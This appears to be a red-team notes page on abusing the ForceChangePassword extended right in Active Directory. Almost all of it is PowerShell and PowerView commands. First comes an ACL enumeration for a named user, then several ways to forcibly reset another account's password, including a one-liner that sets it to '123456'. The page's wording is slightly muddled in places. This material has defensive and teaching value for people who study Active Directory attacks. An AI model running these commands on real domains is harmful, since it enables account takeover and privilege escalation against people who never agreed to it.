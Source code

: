 # ForceChangePassword

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

Doing the same with powerview:

```
Set-DomainUserPassword -Identity delegate -Verbose
```

Another method that does not require fiddling with password-secure-string conversion:

```
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

...or a one liner if no interactive session is not available:

```
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
